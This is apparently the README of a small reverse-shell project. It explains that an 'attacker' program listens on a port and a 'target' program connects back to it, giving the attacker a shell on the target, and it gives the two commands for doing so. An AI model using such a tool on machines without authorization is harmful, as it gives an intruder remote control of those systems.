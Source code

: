 # reverseShell
This is a program in which a 
**Attacker** 
gains a shell of
**Target** 
to which it is connected to.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 8080
```

Now you should have a prompt on server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

